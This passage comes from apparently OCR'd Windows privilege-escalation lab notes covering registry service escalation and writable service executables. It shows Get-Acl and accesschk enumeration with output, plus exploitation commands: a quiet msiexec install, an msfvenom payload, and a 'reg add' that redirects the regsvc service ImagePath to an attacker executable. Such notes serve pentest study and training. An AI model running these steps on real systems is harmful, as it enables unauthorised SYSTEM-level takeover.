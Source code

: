  msiexec /quiet /qn /i C:\Temp\setup.msi
 
 
# 3.  Service Escalation- Registry

**Analysis**
 
Check the following registry hive permissions using Powershell

Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl

Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\regsvc
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : Everyone Allow  ReadKey
         ***NT AUTHORITY\INTERACTIVE Allow  FullControl***
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)

***Exploitation***

Make a payload as windows executable using msfvenom 

Transfer the payload to the host machine 

Change the registry value so that the sevice is called when registry service starts

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f

Then start regsvc


# 4 . Service Escalation: Executable Files

**Analysis**

Using accesschk: 

Accesschk is windows sysinternal that helps you list the permissions of service binaries.

accesschk.exe -uvw "folder"--start with program files.

Accesschk v6.10 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
